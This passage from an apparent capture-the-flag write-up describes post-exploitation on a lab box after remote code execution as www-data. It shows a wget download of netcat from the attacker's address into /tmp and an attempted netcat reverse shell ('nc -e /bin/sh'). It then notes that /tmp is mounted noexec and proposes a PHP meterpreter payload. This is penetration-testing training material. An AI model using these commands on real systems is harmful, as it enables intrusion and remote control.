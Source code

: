 ```python
        print m.group(1)
    else:
        print("No output")
```

I have RCE as `www-data`:
```
# python rce.py
> id
**
10.10.14.23 - - [14/Apr/2019:21:59:41 -0400] "GET / HTTP/1.1" 200 2 "-" "uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Python and netcat are not installed on this box. I tried using perl to spawn a shell but I kept killing the box (bad code injected in the access log? so I tried downloading netcat and spawn a shell that way.
```
> wget http://10.10.14.23/nc -O /tmp/nc

> chmod 777 /tmp/nc

> ls -l /tmp/nc

10.10.14.23 - - [14/Apr/2019:22:08:26 -0400] "GET / HTTP/1.1" 200 2 "-" "-rwxrwxrwx 1 www-data www-data 442856 Apr 14 14:22 /tmp/nc

> /tmp/nc -e /bin/sh 10.10.14.23 80

[No output!]
```

I download netcat on the box but I don't get any callback when I try to execute it. When I look at the filesystem mounts I see that the temporary locations are all mounted as `noexec` so I can't run any binary that I upload there.

```
> mount
**
10.10.14.23 - - [14/Apr/2019:22:00:14 -0400] "GET / HTTP/1.1" 200 2 "-" "/dev/mapper/sda2_crypt on / type ext4 (rw,relatime,errors=remount-ro,data=ordered)
tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev,noexec)
[...]
tmpfs on /tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /var/tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
/dev/sda1 on /boot type ext2 (rw,relatime,block_validity,barrier,user_xattr,acl)
tmpfs on /tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /var/tmp type tmpfs (rw,nosuid,nodev,noexec,relatime)
```

### First shell using Metasploit

If I upload a PHP meterpreter payload into `/tmp` I can execute it since the `php` binary is in the main partition that is executable.
